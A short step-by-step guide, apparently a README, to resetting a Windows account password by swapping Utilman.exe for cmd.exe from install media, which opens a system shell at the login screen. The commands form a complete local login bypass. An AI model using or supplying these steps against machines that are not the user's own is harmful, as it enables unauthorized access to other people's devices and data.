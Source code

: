 1. Build a windows install USB
2. Boot from USB
3. Press `SHIFT + F10`
4. Run the following commands in order

```
diskpart
list disk
select disk # (where # is the disk you want)
detail disk (to see partitions)
select volume # (where # is the volume you want)
assign letter=x (where x is the drive letter)
exit
x: (where x is the drive letter)
cd x:\Windows\System32 (where x is the drive letter)
copy Utilman.exe Utilman1.exe
del Utilman.exe
copy cmd.exe Utilman.exe
```

5. Restart the device
6. Open the Utility manager on the login screen
7. Run the following commands in order

```
net user x * (where x is the username you wish to change the password)
net user x /expire=NEVER
del Utilman.exe
ren Utilman1.exe Utilman.exe
```

Should work on all versions of versions including windows 11
